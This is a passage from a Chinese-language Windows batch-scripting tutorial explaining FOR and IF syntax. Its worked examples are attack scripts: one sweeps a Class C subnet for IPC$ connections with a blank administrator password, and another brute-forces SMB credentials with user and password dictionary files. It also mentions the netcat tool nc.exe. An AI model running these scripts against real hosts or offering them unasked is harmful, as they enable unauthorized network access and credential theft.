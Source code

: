 　　批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：net use ipipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3

　　(set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1 }

　　command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开

　　command_parameters：为特定命令指定参数或命令行开关

　　IN (set)：指在(set)中取值；DO command ：指执行command

　　参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。

　　用法举例：

　　@echo off

　　echo 用法格式：test.bat *.*.* > test.txt

　　for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt

　　存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。

　　/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。

　　@echo off

　　echo 用法格式：ok.bat ip

　　FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200

　　存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。

　　七：

　　2：if命令及变量 基本格式

　　IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。

　　例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。

　　0 指发现并成功执行（真）；1 指没有发现、没执行（假）。

　　IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。

　　例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）

　　IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。

　　例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。

　　IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：“if exist test.txt. <del test.txt.> else echo test.txt.missing ”，注意命令中的“.”

　　系统外部命令

　　注：系统外部命令(均需下载相关工具)

　　瑞士军刀：nc.exe

